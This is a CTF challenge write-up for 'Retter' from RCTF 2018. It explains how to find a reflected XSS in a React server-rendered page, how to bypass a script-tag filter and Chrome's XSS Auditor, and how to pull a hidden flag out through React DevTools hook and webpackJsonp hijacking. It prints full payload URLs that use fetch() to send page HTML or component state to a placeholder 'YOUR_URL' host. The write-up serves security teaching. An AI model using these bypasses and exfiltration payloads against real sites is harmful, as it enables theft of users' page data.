

Retter
=================================
## Challenge (4 solved)

To Major Gilbert

http://retter.2018.teamrois.cn

## Build & Run

Only ``admin.retter.2018.teamrois.cn`` can render ``<Flag />``, change it in ``src/universal/NotFound/NotFound.js``.

Only ``172.12.0.1`` be allowed to read the ``flag.js``, change it in ``docker/retter``.

## Writeup

Open the devtool, we will find that the ``<html>`` tag has a property ``data-reactroot`` and knows that the site is using ``React``. View the HTML Source, it is easy to focus on the ``window.__INITIAL_STATE__``. That is meant by site configured Server-side rendering.  If the website is Server-side rendering Redux, it has to inject the initial state into a template to sync with the client-side. See: [Redux - Server render](https://redux.js.org/recipes/ServerRendering). The ``__INITIAL_STATE__`` has only one attribute ``location`` which value is the current URL. So we can build a URL like ``http://localhost:8667/</script>`` to XSS.

The next step is to run our script in the page. Not hard to know ``<script></script>`` is filtered by server, use ``<scr<script>ipt></script>`` to bypass. Then, we can bypass Chrome XSS Auditor by ``<scr<script>ipt>a<script></script>lert(1)</script>`` due to this useless filter. Now we have the abilitity to run any code on this page, it's showtime now!

The first necessary thing is to read the cookie, but...


Flag is not under ``document.cookie``. Well, it's better to check the HTML code with ``document.body.innerHTML`` if any clues are hidden.


Payload:
``http://retter.2018.teamrois.cn/</script><scr<script></script>ipt>setTimeo<script></script>ut(()%20=>%20%7Bvar%20o%20=%20new%20FormData();%20o.append('a',%20document.body.innerHTML);fetch('YOUR_URL',%20%7Bmethod:'post',mode:'no-cors',%20body:o%7D)%7D,%202000)%20</script></script>``


We get a hint that tells us the flag is hidden in the component. Wait.. What is the component? We already know that this site is based on React, so the ``component`` here most likely means React Component. According to [React.Component - React](https://reactjs.org/docs/react-component.html), we know each React component have two instance properties: ``state`` and ``props``. The flag probably is hidden in one of them. Now our task is to try to get the ``state`` or ``props`` of this component.

How to get the flag?

### Way 1 - React Dev Tool

React doesn't expose any API under ``window``, but every developer who is using React needs to debug their code. As the result, the development tool of React has to have the ability to access the state. That means we certainly have a way to get inside the React if we disguise us as the development tool. Google it, we can find a Chrome extension [React Developer Tools](https://github.com/facebook/react-devtools).

In addition to reading the code, we can install it to guess its action. After installing the extension, a function named ``__REACT_DEVTOOLS_GLOBAL_HOOK__`` appeared in ``window``. Now search the code in React, got [ReactFiberDevToolsHook.js](https://github.com/facebook/react/blob/8de8be07a89f55ebfcaaccf1499e03f22d90bad5/packages/react-reconciler/src/ReactFiberDevToolsHook.js#L35). The code follows:
```javascript
export function injectInternals(internals: Object): boolean {
  // ...
  try {
    const rendererID = hook.inject(internals);
    // We have successfully injected, so now it is safe to set up hooks.
    onCommitFiberRoot = catchErrors(root =>
      hook.onCommitFiberRoot(rendererID, root),
    );
    onCommitFiberUnmount = catchErrors(fiber =>
      hook.onCommitFiberUnmount(rendererID, fiber),
    );
  } catch (err) {
    // ...
  }
```

That's mean React will check ``__REACT_DEVTOOLS_GLOBAL_HOOK__`` during **initializing**(so we can't use this way after the page is initialized). If it found the hook, it will inject itself into the hook.

OK, all the necessary information is complete. With the help of [Add React to a New Application](https://reactjs.org/docs/add-react-to-a-new-app.html), we can build a React App and test our ideas locally.

First of all, insert this script before ``<script src="app.js"></script>``
```html
<script>var __REACT_DEVTOOLS_GLOBAL_HOOK__ = {supportsFiber: true, inject: (a) => window.aa = a};</script>
```

Currently we got the React instance in ``window.aa``, and we can find out what this API exposed via Chrome Dev Tool. Its member ``findFiberByHostInstance`` seems useful, and it's easy to know ``aa.findFiberByHostInstance(document.querySelector('some-selector')`` will return a ``ProxyComponent`` which has a paramater ``memoizedState`` to store the state.

Combine them:
```javascript
var __REACT_DEVTOOLS_GLOBAL_HOOK__ = {supportsFiber: true, inject: (a) => window.aa = a}; setTimeout(() => {console.log(aa.findFiberByHostInstance(document.querySelector('flag')).return.memoizedState)}, 1000)
```

Finally, our payload is:
```html
http://retter.2018.teamrois.cn/%3C/script%3E%3Cscr%3Cscript%3E%3C/script%3Eipt%3Evar%20__REACT_DEVTOOLS_GLOBAL%3Cscript%3E%3C/script%3E_HOOK__%20=%20%7BsupportsFiber:%20true,%20inject:%20(a)%20=%3E%20window.aa%20=%20a%7D;%20setTimeout(()%20=%3E%20%7Bfetch('YOUR_URL'+JSON.stringify(aa.findFiberByHostInstance(document.querySelector('flag')).return.memoizedState))%7D,%201000)%20%3C/script%3E%3C/script%3E
```


This payload only works with React 16.

### Way 2 - Webpack JSONP

It's easier than ``React Dev Tool``, so I added more difficulty.

Read ``manifest.js``, we can know there's a ``flag.js``:
```javascript
u.src=n.p+""+({3:"flag"}[e]||e)+"_"+{0:"1b67ce672850a0add7ec",1:"3e8f6b946ce819a88092",2:"e9a9c1c90f12c48c07e0",3:"3bce8e296124f6ffeb78"}[e]+".js"
```

We can get the path of ``flag.js``:
http://cdn.retter.2018.teamrois.cn/flag_3bce8e296124f6ffeb78.js . Open it in the browser!

... The flag is hidden in this file, so I'm sorry, 403 Forbidden. Only our bot can read this.

How can we get this file through XSS? Directly ajax like ``fetch(url).then(p => p.data)``? We can't do this because the script is under the ``cdn.domain``, it cross-domained.

You may noticed that all the scripts start with ``webpackJsonp``, that means I used webpack's code-splitting. You can see that chunks are loaded via JSONP. Thus, we can get the first payload:

```html
<script>var webpackJsonp = (a, b, c) => {if (b['./universal/components/Flag.js']) console.log(a, b['./universal/components/Flag.js'].toString(), c)};</script>
```

Let's read ``webpackJsonp`` in ``manifest.js``.

```javascript
    var r = window.webpackJsonp;
    window.webpackJsonp = function(t, a, c) {
        for (var u, i, f, l = 0, s = []; l < t.length; l++)
            i = t[l],
            o[i] && s.push(o[i][0]),
            o[i] = 0;
        for (u in a)
            Object.prototype.hasOwnProperty.call(a, u) && (e[u] = a[u]);
        for (r && r(t, a, c); s.length; ) // That's why we predefined function will be called
            s.shift()();
        if (c)
            for (l = 0; l < c.length; l++)
                f = n(n.s = c[l]);
        return f
    }
```
We don't need to import ``flag.js``, ``webpackJsonp`` redefined in ``manifest.js`` will call the function we defined before, and React will auto import ``flag.js``.

It's too easy so I made a bypassable filter in ``docker/build.sh``. [CyKor](https://ctftime.org/team/369) and ``张衡路窝里斗大学一楼食堂彻底完蛋啦`` implemented a ``webpackJsonp`` will send data to their server but return of ``toString()`` is as normal one to bypass the filter. [Bushwhackers](https://ctftime.org/team/586) found that ``webpackJsonp`` will return the loaded script as requested by the third parameter.

### Way 3 - iframe + ref
[OpenToAll](https://ctftime.org/team/9135) found it, see: https://devcraft.io/2018/05/22/retter-rctf-2018.html

